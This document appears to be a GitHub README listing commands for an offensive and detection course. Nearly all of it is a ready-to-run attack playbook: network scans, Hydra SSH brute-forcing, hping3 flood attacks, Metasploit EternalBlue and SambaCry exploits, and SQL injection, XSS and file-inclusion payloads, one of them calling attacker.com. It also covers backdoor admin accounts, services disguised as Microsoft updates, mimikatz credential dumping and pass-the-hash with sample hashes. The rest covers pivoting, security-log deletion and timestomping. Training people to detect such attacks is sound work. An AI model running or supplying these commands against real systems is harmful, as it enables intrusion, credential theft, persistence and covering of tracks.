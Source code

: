 # list-command-Offensive-Detection-course
List command that used in Offensive &amp; Detection Course

# Service Exploitation
## scan network & VA
nmap -P0 <IP>
openvas
nessus
  
## bruteforcing
hydra-wizard
hydra -l root -P /usr/share/wordlists/rockyou.txt -u  -s 22  <IP> ssh
  
## DoS
TCP(SYN Flood): hping3 -S -L -w --flood -p 80 <TARGET>
UDP(Volume Based Attack) : hping3 --UDP --flood -p 80 <TARGET>
  
## Sambacry
(metasploit) exploit/linux/samba/is_known_pipename
(msf) set RHOST 192.168.210.104
(msf) exploit

## Eternalblue
(metasploit) exploit/windows/smb/ms17_010_eternalblue
(msf) set RHOST 192.168.210.102
(msf) exploit

# Web Application Attack
## SQL Injection
') union select 1,email,password,4,5,6,7 from users;--
## XSS
<<script>alert("XSS")</script>script>alert("XSS")<</script>/script>
## Local File Inclusion
../../../../../../../../../../etc/passwd
## LFI&RFI&SSRF
render.php?include=http://attacker.com

# Lateral Movement
## normal reconnaissance
tasklist
systeminfo
whoami
whoami /priv
## Bypass UAC & Privilege Escalation
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_eventvwr
set SESSION <id>
exploit
## net command
net localgroup Users
net localgroup Administrators
net user sservice p@ssw0rd /add
net localgroup administrators sservice /add
## Install new service
sc create microsoft_update binpath= "cmd /K start c:\Windows\Temp\backdoor.exe" start= auto error= ignore /c C:\Windows\Temp\backdoor.exe
sc create Microsoft_Update binpath= "cmd /K start C:\Users\john.SECPLAYGROUND\Downloads\update.exe" start= "auto" DisplayName= "Windows Automatic updates"
## Enable Remote Desktop
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v AllowTSConnections /t REG_DWORD /d 1
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
net start termservice
sc config termservice start= auto
## Mimikatz
wget "https://github.com/gentilkiwi/mimikatz/releases/download/2.1.1-20171220/mimikatz_trunk.zip"
unzip mimikatz_trunk.zip
(msf) upload /opt/x64/mimikatz.exe .
(msf) upload /opt/x64/mimidrv.sys .
(msf) upload /opt/x64/mimilib.dll .
(msf) session -i <id>
mimikatz.exe
(mimikatz) privilege::debug
(mimikatz) sekurlsa::logonPasswords full

## Pass-the-hash
git clone https://github.com/byt3bl33d3r/pth-toolkit
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
pth-winexe -U hash //IP cmd
./pth-winexe -U john%'921988ba001dc8e14a3b108f3fa6cb6d:e19ccf75ee54e06b06a5907af13cef42' //192.168.210.102 cmd.exe
sc query winexesvc
sc start winexesvc
./pth-winexe -U john%'921988ba001dc8e14a3b108f3fa6cb6d:e19ccf75ee54e06b06a5907af13cef42' --system //192.168.210.102 cmd.exe
xfreerdp /u:user /d:domain /pth:hash /v:IPAddress

## WMIC
wmic useraccount list /format:list
wmic group list brief
wmic path win32_process call create "calc.exe"
wmic /node:computername /user:domainname\username path win32_process call create "**empire launcher string here**"
wmic /node:192.168.255.10 /user:"secplayground\john" path win32_process call create "calc.exe"
wmiexec.py -debug john:P@ssw0rd@192.168.210.102

## Pivoting network
(meterpreter) run autoroute -s 192.168.255.0/24
(meterpreter) run post/windows/gather/arp_scanner rhosts=192.168.255.0/24
(msf) use auxiliary/server/socks4a
(msf) set SRVHOST 0.0.0.0
(msf) set SRVPORT 9999
(msf) exploit
Edit /etc/proxychains.conf
proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-ms08-067.nse 192.168.255.10
proxychains wmiexec.py -debug john:P@ssw0rd@192.168.255.10

## Delete all system log
wevtutil cl security

## Winrm
PS> Enable-PSRemoting -Force
winrm quickconfig

## schtask - create new schedule task
schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe /sc once /st 00:00 /S host /RU System
schtasks /run /tn foobar /S host
delete schedule task
schtasks /F /delete /tn foobar /S host

## Timestomp
(meterpreter) timestomp mimikatz.exe -v

Resource::
- https://www.botconf.eu/wp-content/uploads/2017/12/2017_tomonaga-muda-Hunting-Attacker-Activities.pdf
- https://www.slideshare.net/votadlos/hunting-lateral-movement-in-windows-infrastructure
- https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html#net-user-domain
